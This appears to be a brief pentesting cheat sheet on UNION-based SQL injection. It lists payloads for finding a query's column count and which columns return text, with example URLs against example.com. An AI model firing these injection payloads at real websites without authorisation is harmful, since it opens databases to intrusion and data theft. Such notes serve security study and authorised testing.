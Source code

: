 # UNION based SQL Injection

## Find number of SQL collumns

' UNION SELECT NULL--

' UNION SELECT NULL,NULL--

Example: `https://example.com/param='+UNION+SELECT+NULL,NULL--`

## Find data in collumns

' UNION SELECT 'a',NULL,NULL,NULL--

' UNION SELECT NULL,'a',NULL,NULL--

' UNION SELECT NULL,NULL,'a',NULL--

' UNION SELECT NULL,NULL,NULL,'a'--

Example: `https://example.com/param='+UNION+SELECT+'a',NULL,NULL,NULL--`
